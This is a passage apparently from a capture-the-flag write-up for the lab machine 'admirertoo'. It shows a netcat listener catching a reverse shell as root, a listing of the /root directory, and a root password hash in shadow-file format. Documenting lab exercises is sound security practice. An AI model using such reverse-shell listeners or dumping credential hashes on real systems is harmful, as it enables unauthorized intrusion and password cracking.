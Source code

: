 And we are ROOT.
```
$ nc -lnvp 9001                                                                                                                                             
listening on [any] 9001 ...                                                                                                                                 
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.137] 50568                                                                                                 
bash: cannot set terminal process group (3475): Inappropriate ioctl for device                                                                              
bash: no job control in this shell                                                                                                                          
root@admirertoo:/# cd /root
root@admirertoo:~# ls -la
total 40
drwx------  4 root root 4096 Jan 12 10:20 .
drwxr-xr-x 18 root root 4096 Jan 11 11:20 ..
lrwxrwxrwx  1 root root    9 Jul  8  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  2 root root 4096 Dec 16 15:00 .cleanup
drwx------  3 root root 4096 Jan 10 22:49 .gnupg
lrwxrwxrwx  1 root root    9 Jul  8  2021 .mysql_history -> /dev/null
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   33 Mar 24 06:04 root.txt
-rw-------  1 root root 9755 Jan 12 10:20 .viminfo
```


```
root:$6$eP5MVyB1lXtVQgzU$H4xJdGiHfSu9JmUR80juqHC5BAca79yir2Z6bipW8s.DowTuNRo82/CjN7EMBK8lczD1AMYxgKTIp79DjN2R31:18817:0:99999:7:::
```